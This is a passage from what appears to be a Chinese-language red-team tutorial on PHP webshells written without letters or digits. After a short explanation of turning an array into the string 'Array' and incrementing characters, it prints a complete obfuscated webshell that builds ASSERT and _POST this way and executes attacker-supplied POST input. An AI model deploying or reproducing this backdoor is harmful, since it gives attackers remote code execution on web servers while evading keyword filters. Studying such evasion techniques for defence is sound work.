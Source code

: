 巧了，数组（Array）的第一个字母就是大写A，而且第4个字母是小写a。也就是说，我们可以同时拿到小写和大写A，等于我们就可以拿到a-z和A-Z的所有字母。

在PHP中，如果强制连接数组和字符串的话，数组将被转换成字符串，其值为Array：

![](../../../../../assets/img/Security/RedTeam/语言安全/PHP安全/无字母数字Webshell/2.png)

再取这个字符串的第一个字母，就可以获得'A'了。

利用这个技巧，得到如下webshell（因为PHP函数是大小写不敏感的，所以我们最终执行的是 `ASSERT($_POST[_])`，无需获取小写a）：

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```

